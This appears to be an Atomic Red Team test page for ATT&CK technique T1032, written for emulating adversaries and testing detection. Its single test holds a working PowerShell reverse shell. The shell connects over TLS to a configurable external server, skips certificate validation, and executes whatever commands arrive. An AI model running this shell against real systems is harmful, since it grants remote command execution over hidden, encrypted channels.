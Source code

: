 # T1032 - Standard Cryptographic Protocol
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1032)
<blockquote>Adversaries may explicitly employ a known encryption algorithm to conceal command and control traffic rather than relying on any inherent protections provided by a communication protocol. Despite the use of a secure algorithm, these implementations may be vulnerable to reverse engineering if necessary secret keys are encoded and/or generated within malware samples/configuration files.</blockquote>

## Atomic Tests

- [Atomic Test #1 - OpenSSL C2](#atomic-test-1---openssl-c2)


<br/>

## Atomic Test #1 - OpenSSL C2
Thanks to @OrOneEqualsOne for this quick C2 method.
This is to test to see if a C2 session can be established using an SSL socket.
More information about this technique, including how to set up the listener, can be found here:
https://medium.com/walmartlabs/openssl-server-reverse-shell-from-windows-client-aee2dbfa0926

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| server_ip | IP of the external server | String | 127.0.0.1|
| server_port | The port to connect to on the external server | String | 443|


#### Attack Commands: Run with `powershell`! 


```powershell
$server_ip = #{server_ip}
$server_port = #{server_port}
$socket = New-Object Net.Sockets.TcpClient('#{server_ip}', #{server_port})
$stream = $socket.GetStream()
$sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
$sslStream.AuthenticateAsClient('fake.domain', $null, "Tls12", $false)
$writer = new-object System.IO.StreamWriter($sslStream)
$writer.Write('PS ' + (pwd).Path + '> ')
$writer.flush()
[byte[]]$bytes = 0..65535|%{0};
while(($i = $sslStream.Read($bytes, 0, $bytes.Length)) -ne 0)
{$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data | Out-String ) 2>&1;
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$sslStream.Write($sendbyte,0,$sendbyte.Length);$sslStream.Flush()}
```






<br/>
